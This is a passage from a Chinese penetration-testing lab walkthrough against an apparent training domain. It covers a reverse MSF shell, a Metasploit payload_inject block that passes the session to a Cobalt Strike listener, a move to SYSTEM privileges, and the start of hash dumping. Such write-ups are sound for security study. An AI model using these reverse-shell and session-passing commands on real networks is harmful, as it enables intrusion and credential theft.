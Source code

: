 执行以下命令我们知道当前的用户身份是 administrator ，在管理员组中，并且处在域 god 中。该主机有两张网卡，分别是：192.168.10.14，192.168.52.143。由此可知，其实获得的这个权限就是域管理员权限。(搞不懂环境为啥要以域管理员账号登录，为啥不以本地普通用户登录？？)

[![](https://p1.ssl.qhimg.com/t011fa6d85cd5bdd12a.png)](https://p1.ssl.qhimg.com/t011fa6d85cd5bdd12a.png)

[![](https://p1.ssl.qhimg.com/t01488eed9e021e4b98.png)](https://p1.ssl.qhimg.com/t01488eed9e021e4b98.png)

现在我们想反弹一个MSF的shell。将MSF生成的木马上传到该主机上，执行，反弹成功！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d5ea2aa6b83be52f.png)

### 

### 派生CobaltStrike权限

首先在CobaltStrike上开启一个监听

[![](https://p3.ssl.qhimg.com/t012a810cc30e672ddf.png)](https://p3.ssl.qhimg.com/t012a810cc30e672ddf.png)

然后在MSF中执行以下操作，我们的CobaltStrike就接收到反弹过来的shell了。

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set lhost xxxx                 #cobaltstrike监听的ip
set lport 14444                 #cobaltstrike监听的端口 
set session 1                   #这里是获得的session的id
exploit
```

[![](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t0168bb9aef3c6ef637.png)](https://p3.ssl.qhimg.com/t0168bb9aef3c6ef637.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)

### 获得System权限

这里由于获得的直接是adminsitrator权限，所以可以直接提到system。在真实环境中，这里很多时候都是一个普通用户权限，需要我们去提权。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014191345963bce164.png)

### 

### 获取账号密码

**1：导出hash**
